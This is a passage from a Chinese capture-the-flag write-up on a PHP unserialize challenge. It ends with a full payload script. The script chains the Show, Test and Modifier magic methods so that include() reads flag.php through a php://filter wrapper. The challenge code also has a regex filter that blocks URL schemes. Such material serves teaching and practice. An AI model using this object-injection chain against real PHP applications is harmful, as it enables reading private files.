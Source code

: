 即可调用`__toString`，输出的$str所以：

---

```php
$b ->source->str = $c;
```

即可输出`__Modifier`包含的文件

## 5.payload

```php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var = "php://filter/read=convert.base64-encode/resource=flag.php";
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
$b = new Show();
$c = new Test();
$c ->p = new Modifier();
$b ->source = $b;
$b ->source->str = $c;
echo urlencode(serialize($b));
```
